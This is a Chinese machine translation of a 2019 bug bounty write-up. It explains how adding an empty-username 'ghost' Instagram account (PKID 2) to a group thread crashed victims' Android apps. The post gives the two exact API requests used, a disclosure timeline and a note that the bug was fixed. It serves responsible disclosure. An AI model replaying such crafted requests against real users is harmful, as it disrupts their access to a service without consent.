 # 两个死亡账号如何让任何 Instagram android 用户远程崩溃

> 原文：<https://infosecwriteups.com/how-two-dead-users-allowed-remote-crash-of-any-instagram-android-user-8f20e88b1b59?source=collection_archive---------0----------------------->

![](img/aab2af5b90e45615b2fc5014243c0ad7.png)

# 介绍

![](img/f07480e941bf262056459cb952ffc5d5.png)

2019 年 4 月，我有了测试脸书安全(更具体地说是 Instagram 安全)的愚蠢想法，在我得知该公司在他们的资产上启用了一种新的设置(称为 Whitehat Settings)，使研究人员更容易发现新的漏洞(锁定不是问题，我只是有时有点懒:P)。在我最初的研究中，我得出结论，Instagram 在其数据库中使用简单的增量 PKI 来定义平台上的用户帐户，因此我很好奇，想确定哪些是社交网络上创建的第一批帐户。嗯，第一批账户中的一个(我不确定 PKID 是 3 还是 4)，属于 Mike Krieger(insta gram 联合创始人之一)。

![](img/fd91e6efac3aa6da6aee26e20738ff29.png)

是的，有点显而易见……但是第一个和第二个 Instagram 账户(PKID = 1 & PKID=2)呢？它们有点不寻常，因为它们与一个 ID 相关联，而且它们的用户名没有被填充:更准确地说，它们的用户名字段包含一个空字符串("")，我几乎可以肯定这种行为会产生一些问题。我的想法是，这些账户是在 Instagram 的初始测试阶段创建的，当时它只不过是一个 alpha 版本。此外，我想知道为什么过了这么长时间它们仍然没有被移走？但是没有人回应这个疑问。从现在开始，让我们称他们为幽灵用户😯

![](img/a3e40eb53779c930355121903f9059a0.png)

回到我们这里，如果没有服务器端代码的正确管理，空字符串有时可能是危险的:事实上，我的第一个想法是找到一种方法，通过利用对畸形数据的糟糕解析，使 Instagram 应用程序崩溃。然而，更有趣的是找到一种远程崩溃其他 Instagram 帐户的方法。

浏览 Instagram 的几个功能(Instagram 的功能比脸书少，但同样非常庞大)，我找到了一个适合这种情况的功能:在 Instagram messages 选项卡中创建群线程:事实上，可以在 Instagram 中用其他帐户创建聊天群。具体来说，执行操作的端点是:

```
/api/v1/direct_v2/create_group_thread/
```

# 利用

## 技术细节

Bug 测试是在 Android 版本等于 8.0 的三星 Galaxy S8+上进行的，开发阶段非常琐碎。

为了尝试利用空字符串问题，我首先与一个测试用户一起创建了一个简单的组。根据示例请求:

```
POST /api/v1/direct_v2/create_group_thread/ HTTP/1.1
User-Agent: Instagram ....
Accept-Language: en-US
Cookie: urlgen= ....
Accept-Encoding: gzip, deflate
Host:i.instagram.com
X-FB-HTTP-Engine: Liger
Connection: close
Content-Length: 353signed_body=d963d5f048924a58712d8bcf7912ac76a7c3c990199c7d59ac25e7990e142f49.{**"recipient_users":"[xxxxxxxxxx]**","_csrftoken":"WBpZmckmENi6eiubd26Osz6SIR3vtowu","thread_title":"bdbdbdbdbdxb","_uid":"12579513534","_uuid":"d18570eb-0663-40f4-bcc3-0c48a5031cee"}&ig_sig_key_version=4
```

这里重要的一部分是 recipient_users JSON 参数，它由受害者 instagram ID 填充。随后，我使用另一个 API 端点将一个 ghost 用户添加到现有组中:

```
POST /api/v1/direct_v2/threads/**yyyyyyyyyy**/add_user/ HTTP/1.1
User-Agent: Instagram ....
Accept-Language: en-US
Cookie: urlgen= ....
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Host:i.instagram.com
X-FB-HTTP-Engine: Liger
Connection: close
Content-Length: 109_csrftoken=Pod4ZKSSLYUYMPs2TxhN5Xkmsv6xUOsO&**user_ids=["2"]**&_uuid=d18570eb-0663-40f4-bcc3-0c48a5031cee
```

在上面的请求中，yyyyyyyyy 表示刚刚创建的组线程的 ID(从前面的 API 调用的响应中获得), user_ids 数组填充了值 2(一个 ghost 用户的 PKID)。

第二次请求后，受害者的 android Instagram 应用程序突然崩溃，用户被迫手动从群中移除才能再次使用！

![](img/6379d12eddfe9d4ceadde729297f7a40.png)

这可能是由 ghost 用户用户名中的空字符串的 JSON 解析异常引起的。下面是崩溃导致的堆栈跟踪示例:

![](img/42a223c65c35a7a52ac9446a30ceb1ad.png)

# 影响

利用这个漏洞，只要将 Instagram android 用户添加到一个以 ghost 用户为成员的公共组线程中，就有可能远程崩溃任何 insta gram Android 用户。我注意到，你的 Instagram 粉丝不需要接受任何请求(对他们来说，这是一种零点击利用)，但“加入群组”的请求必须由不关注攻击者的用户接受。

# 验证性测试（Proof of Concept 的缩写）

# 时间表

*   2019 年 4 月 10 日—就该 bug 联系脸书·怀特哈特团队
*   2019 年 4 月 12 日—脸书要求提供更多信息
*   五月 02 日。2019/09 2019 年 9 月-研究员和脸书之间交换的各种电子邮件。最终错误确认
*   2019 年 9 月 9 日—错误已修复
*   2019 年 9 月 10 日—颁发奖金
*   2019 年 9 月 12 日—漏洞被披露

*原载于 2019 年 9 月 13 日*[*https://www . valbrux . it*](https://www.valbrux.it/blog/2019/09/13/how-two-dead-users-allowed-remote-crash-of-any-instagram-android-user/)*。*

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)